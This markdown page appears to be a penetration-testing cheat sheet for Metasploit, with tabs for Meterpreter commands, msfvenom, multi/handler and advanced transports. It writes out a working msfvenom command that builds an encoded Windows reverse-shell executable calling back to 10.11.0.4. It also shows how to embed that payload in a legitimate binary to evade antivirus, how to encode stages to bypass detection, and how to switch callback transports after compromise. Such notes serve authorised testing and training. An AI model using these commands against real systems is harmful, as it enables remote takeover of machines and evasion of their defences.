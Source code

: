 {% tab title="Meterpreter" %}
```
meterpreter > help
                sysinfo
                getuid
                upload/download (double "/" for the destination path)
                shell
```
{% endtab %}

{% tab title="msfvenom" %}
{% code overflow="wrap" %}
```bash
https://hackingandsecurity.blogspot.com/2016/04/msfpayload-and-msfencode-have-been.html?m=1

# -i is the number of encoding iterations to further obfuscate the binary
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
# Inject a payload into an existing PE file --> reduces AV detection
msfvenom -p ... -x /usr/share/windows-resources/binaries/plink.exe ...
# This can also be done with "generate" in Metasploit
msf > generate -f exe -e x86/shikata_ga_nai -i 9 -x ... -o revshell_encod_emb.exe
```
{% endcode %}
{% endtab %}

{% tab title="Multi/handler" %}
```bash
# Run it in the background to not block the prompt
msf > exploit -j
    jobs
    jobs -i 0
    kill 0
```
{% endtab %}

{% tab title="Advanced features and Transports" %}
{% code overflow="wrap" %}
```bash
msf > show advanced
# We possibly bypass AV detection if we encode the second stage of a staged payload
    set EnableStageEncoding true
    set StageEncoder x86/shikata_ga_nai
# Autom. run a script when the connection is established, useful for cl-sid attacks
    set AutoRunScript windows/gather/enum_logged_on_users
meterpreter > background
# To switch protocols (HTTP, TCP...) after our initial compromise
meterpreter > transport list
              transport add -t reverse_tcp -l 10.11.0.4 -p 5555
              transport list
              background
# Now we set up the listener (10.11.0.4 5555) with multi/handler   
# To change to the new transport
meterpreter > transport next/prev   
```
{% endcode %}
{% endtab %}
{% endtabs %}
